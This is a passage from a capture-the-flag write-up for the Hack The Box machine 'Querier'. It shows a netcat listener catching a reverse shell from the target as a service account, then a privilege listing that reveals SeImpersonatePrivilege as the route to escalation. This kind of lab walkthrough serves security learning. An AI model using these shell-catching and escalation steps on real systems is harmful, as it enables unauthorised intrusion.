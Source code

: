 This catches us back a shell in our listener:

```
┌──(ryan㉿kali)-[~/HTB/Querier]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.10.125] 49679
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
querier\mssql-svc

C:\Windows\system32>hostname
hostname
QUERIER
```

We can now grab the user.txt flag:

![querier_user_flag.png](../assets/querier_assets/querier_user_flag.png)

### Privilege Escalation

Running `whoami /all` we see we have SeImpersonatePrivilege enabled. This is very common for service accounts:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
